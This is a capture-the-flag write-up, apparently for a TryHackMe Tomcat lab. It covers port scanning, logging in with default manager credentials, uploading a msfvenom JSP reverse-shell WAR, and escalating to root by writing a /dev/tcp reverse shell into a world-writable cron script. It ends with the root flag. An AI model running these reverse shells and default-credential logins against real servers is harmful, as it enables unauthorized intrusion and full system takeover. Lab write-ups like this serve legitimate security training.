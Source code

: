 ## nmap

```
[parrot]─[16:50-01/07]─[/home/glack]
└╼glack$nmap -sV -sT -p 22,8009,8080 10.10.113.14
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 16:53 IST
Nmap scan report for 10.10.113.14
Host is up (0.13s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.14 seconds

```

Webserver is running on port 8080

## HTTP

Default installation of apache tomcat server 8.5.5

Feroxbuster returns few interesting resources

```
┌[parrot]─[16:54-01/07]─[/home/glack]
└╼glack$feroxbuster -u http://10.10.113.14:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -n -t 60
```

```
302        0l        0w        0c http://10.10.113.14:8080/docs
302        0l        0w        0c http://10.10.113.14:8080/examples
302        0l        0w        0c http://10.10.113.14:8080/manager

```


This one ask us for basic auth when trying to access

```
http://10.10.113.14:8080/manager
```

After trying some random creds we get an error when when cancelling the request.

However this error includes some creds 

```
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
```

It also says to examine this resource for some creds

```
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
```

As soon as we login using the above creds in 
http://10.10.113.14:8080/manager/html

we get in the webapp as 'tomcat'.

Here we can see that we are able to upload a .war file on the webserver.

## Gaining Access

Now when running the msfvenom payload command  i was getting an error which i was not able to troubleshoot

```
[parrot]─[16:53-01/07]─[/home/glack/Downloads/Postman/app]
└╼glack$msfvenom -l payloads
Calling `DidYouMean::SPELL_CHECKERS.merge!(error_name => spell_checker)' has been deprecated. Please call `DidYouMean.correct_error(error_name, spell_checker)' instead.
[*] Bundler failed to load and returned this error:

   'You have already activated timeout 0.4.0, but your Gemfile requires timeout 0.3.2. Prepending `bundle exec` to your command may solve this.'

[*] You may need to uninstall or upgrade bundler
```

Now to bypass this i ran all in msfvenom commands in the msfconsole and created a payload for the target webserver with below command

```
[msf](Jobs:0 Agents:0) >> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.17.24.189 LPORT=9999 -f war > /home/glack/Desktop/THM/revshell.war
```

Gave the file executable permissions
```
[parrot]─[17:24-01/07]─[/home/glack/Desktop/THM]
└╼glack$chmod +x revshell.war
```

And uploaded it on the webserver

Started a netcat listener

```
┌[parrot]─[17:24-01/07]─[/home/glack/Desktop/THM]
└╼glack$nc -lnvp 9999 
```

And it did't work, so i had come across this type of exploit also in the past when trying to exploit a HTB machine - 'Jerry', so i used the knowledge base i created then to see where i went wrong

Ok so [[5. Machines/HTB Machines/Jerry/2. foothold|2. foothold]] This explains the details i'll just get into it

Used this command to list the contents of war file

```
┌[parrot]─[17:33-01/07]─[/home/glack/Desktop/THM]
└╼glack$jar tf revshell.war
```

And upon visiting the path with the name of jsp filename

```
http://10.10.113.14:8080/revshell/fkngrkcpl.jsp
```

We get a shell on the netcat listener

and we get the userflag

## Priv Esc

Now in the jack's home directory we can see other files

```
tomcat@ubuntu:/home/jack$ ls
ls
id.sh  test.txt  user.txt
```

This maybe a hint when trying to escalate privileges to root

and when checking the contents of both files we can see that 

```
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt

tomcat@ubuntu:/home/jack$ cat test.txt     
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

"id.sh" is a bash file the generates the output of command "id" and adds it to the file "test.txt"

But since the file is owned by Jack
```
tomcat@ubuntu:/home/jack$ ls -al | grep id  
ls -al | grep id
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh

```

This output of this command shall gives the "id" details of jack but here we can see that it gives the "id" of root account. 

This makes us suspicious that the "id.sh" file is running with root privileges.

We can confirm this suspicion when checking the contents of crontab using

```
tomcat@ubuntu:/home/jack$ cat /etc/crontab
```

This "id.sh" file was a crontab created to run with root privileges. This file  "id.sh" runs every
 minute.
 
```
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
```

But we have write and execute permission for the "id.sh", that's not good configuration by the root. 

We can use this to escalate our privileges to the root user by changing the contents of "id.sh" using.

```
tomcat@ubuntu:/home/jack$ echo "bash -i >& /dev/tcp/10.17.24.189/9991 0>&1" > id.sh
```

You can get a list  of reverse shell lists from here(https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)



And start a netcat listener of my local machine

```
┌[parrot]─[17:49-01/07]─[/home/glack/Desktop/shellgen]
└╼glack$nc -lnvp 9991
```

We wait for sometime and we get a root shell and the root flag

```
root@ubuntu:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

```
root@ubuntu:~# cat root.txt
cat root.txt
d89d5391984c0450a95497153ae7ca3a

```

